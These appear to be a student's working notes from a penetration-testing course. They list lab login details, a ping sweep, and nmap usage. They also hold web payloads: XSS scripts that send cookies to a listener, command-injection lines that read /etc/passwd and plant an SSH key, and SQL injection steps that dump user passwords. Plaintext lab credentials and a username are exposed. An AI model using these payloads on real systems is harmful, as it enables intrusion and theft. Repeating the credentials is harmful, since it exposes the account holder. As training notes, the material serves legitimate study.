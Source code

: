 ### LOGIN INFO ###
Please log into Lins-ops
find IPs on vta.cybbh.space

class info: 10.50.46.45/classinfo.html
Keep this output in your notes, password for pivot/-jump box and CTFd, 10.50 is your Jump box for challenges

OLD CTFd: 10.50.20.250:8000

New CTFd: 10.50.20.30:8000


ssh into my workstation -> ssh -X student@10.50.39.223
password: password 

JUMP_BOX!!!
username: MAKI-502-B
password: d07PevVUniUxBNR

Record deleted successfully
Stack Number  |	Username	| Password	        |    lin.internet
-------------------------------------------------------------------
16	          |  MAKI-502-B	|  d07PevVUniUxBNR  |	    10.50.23.132

to ssh into the jumpbox -> ssh student@10.50.23.132 with the password as d07PevVUniUxBNR

linux-ops ip address: 10.50.24.96
    username: student
    password: password
jump-box: 10.50.23.132
    username: student
    password: d07PevVUniUxBNR

winops: 10.50.27.161


VTA_creds: https://vta.cybbh.space/horizon/project/
Username: mahlon.k.kirwa80
password: regular linux password
Domain: ipa

Jump box:
cctc.cybb

Link slides and what not - https://sec.cybbh.io/public/security/latest/index.html

Instances - https://vta.cybbh.space/horizon/project/instances/

## SECURITY MODULES ##


LESSONS:
1. Penetration testing
2. Reconnaissance
3. Exploit Research
4. Web Exploitation - Day 1
5. Web Exploitation - Day 2
6. Reverse Engineering
7. Exploit Development Testing
8. Post Exploitation
9. Windows Exploitation
10. Linux Exploitation

### PENETRATION TESTING ###

Phases:
1. Phase 1 - Mission definition
2. Phase 2 - Recon
3. Phase 3 - Footprinting
4. Phase 4 - Exploitation and Initial Access
5. Phase 5 - Post Exploitation
6. Phase 6 - Document Mission

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done # Does the first 1000 scans. For the ping sweep... 

Always run the regular scans like above before you try banner grabbing (a technique used to gain information about a computer on a network and the services running on its open ports.)

storage nmap scripts -> ls /usr/share/nmap/scripts/
Popular scripts: ftp-anon.nse, http-enum.nse, smb-os-discovery.nse

How to get information about a certain script -> proxychains nmap [target_ip_address]-Pn -p [target_port] --script-help [target_script]
                                                             nmap ip 192.168.28.97-100, 100,105,111,120 -pm


## Web Exploits CSS ##

proxychains nmap 10.50.45.162 -Pn --script http-enum -p 80

nc -kvnl 8000

n- translates dns

 <script>document.location="http://10.50.20.97/Cookie_Stealer1.php?username=" + document.cookie;</script>
http://10.50.20 ------ needs to be your ip address...


ping 8.8.8.8 ;cat /etc/passwd -> Lets you run and see if 

;cat ~/.ssh/id_rsa.pub

;mkdir /var/www/.ssh

;whoami

;echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+ShHz+32iRy5PXvEQSEnn3yOK9azmn6tK+Ld8rpJkGg1Oyuq8hpq7YCmbS246hKLGytcqS9QKaC5xYojc/XjkdLzyAh8B1Ji2EPBMkVf2kpkXpS7uoYM0EvMm5j7Q2SakFdeDdLKgAUaY73JBkZmwSxi5GsJz6ZhE/x+92pFNDzcyXs4gyri+ME2ctmxVeSViOBtRONhjSrdTHePKekSPE4eKO4fEKrVFC8/QT7liTjNuCScNnw72TBys+4ZyrcSlj3yyEgs5Rrw3TpgkS+VS/tSpFf2lljuCmU0f/IXLW73q5/JdeiMEQqSFuV2SD2D9P+Eq92ES0HugQUz30yGR" >> /var/www/.ssh/authorized_keys

ssh www-data@10.50.45.162

malicious file upload.... 


10.50.45.62




http://10.100.28.40/Contract_bids.html
http://10.100.28.40/net_test/industry_check.php
http://10.100.28.40/


 <script>document.location="http://10.50.49.22:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
http://10.50.20 ------ needs to be your ip address...


<script>document.location="http://10.50.39.223:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
192.168.65.20

## SQL ##

MariaDB > select carid, name, cost from car;
MariaDB > select carid, name, cost from session.car where carid=4; 
MariaDB > select database(); # shows you where you are with your current database. 
MariaDB > select table_schema, table_name, column_name from information_schema.columns;

table_schema: Refers to the name of the schema (often used interchangeably with "database" in some DBMS) to which the table belongs.
The information_schema.columns table is a meta-table that contains information about all columns in all tables in the database system.

MariaDB > select table_name from information_schema.columns where table_schema=session;
MariaDB > select @@version;
MariaDB > select load_file("/etc/passwd);
MariaDB > select carid, name, cost from session.car union select name, pass, id from session.user;

SELECT * FROM movies;

SELECT * FROM movies where year<2000 or year>2010; # Finding movies not released in the years between 2000 and 2010.
SELECT * FROM movies where id>=1 and id<=5; # Finding the first 5 pixar movies. 
SELECT * FROM movies WHERE Title LIKE '%toy story%'; # Find all the Toy Story movies
SELECT * FROM movies WHERE Director='John Lasseter'; # Find all movies directed by John Lasseter
SELECT * FROM movies WHERE Title like 'WALL-%'; # Find all the WALL-* movies
SELECT DISTINCT Director FROM movies ORDER BY Director ASC; # List all directors of Pixar movies (alphabetically), without duplicates 
SELECT * FROM movies ORDER BY year DESC limit 4; # List the last four Pixar movies released (ordered from most recent to least) 
SELECT * FROM movies ORDER BY title ASC limit 5; # List the first five Pixar movies sorted alphabetically


WHERE Price BETWEEN 10 AND 20;

USE session;
SELECT id FROM user WHERE name='tom' OR 1=1;

steps sql injection
1. in both the password and username field, enter: tom' or 1='1
2. Inspect html and change form from post to get 
3. login and see the information

You will get all selects except for one challenge. 

step 1 -> http://10.50.46.45/uniondemo.php?Selection=2 or% 1=1 -> Keep increasing the value on the selection until an output is derived
step 2 -> http://10.50.46.45/uniondemo.php?Selection=2 union select 1,2,3 union select, find out if there values are ordered

We now know they're not inorder and that 2 is vulnerable let's look at the table schema 
step 3 -> http://10.50.46.45/uniondemo.php?Selection=2 UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

union demo - http://10.50.46.45/Union.html

ford' or 1=1; #   ---> Try this gives this select name, type, cost, color, year from car where name='ford\' or 1=1; #' 
select name, type, cost, color, year from car where name='audi\' or 1=\'1'

0. ford' or 1='1; this didn't work why???
1. ford' or 1=1; # after this we try audi next
2. Audi' or 1=1; #' ----> gives this select name, type, cost, color, year from car where name='Audi' or 1=1; # ' -----> SUCCESS!!!
3. Now we need union select 
4. Audi' union select 1,2,3,4; # -----> doesn't work.. 
5. Audi' union select 1,2,3,4,5; # ----> works.. looks like I added 
6. Audi' UNION SELECT 1,2,table_schema,table_name,column_name FROM information_schema.columns; #      ----> GOLDEN STATEMENT ALLOWS US TO KNOW WHAT TO WRITE FOR THAT SITUATION. Helps us to write a valid query for content
7. Audi' Union select id,null,name,pass,null from session.user; #
query -----> select name, type, cost, color, year from car where name='Audi' Union select id,2,name,pass,null from session.user; #'


## REVERSE ENGINEERING ##
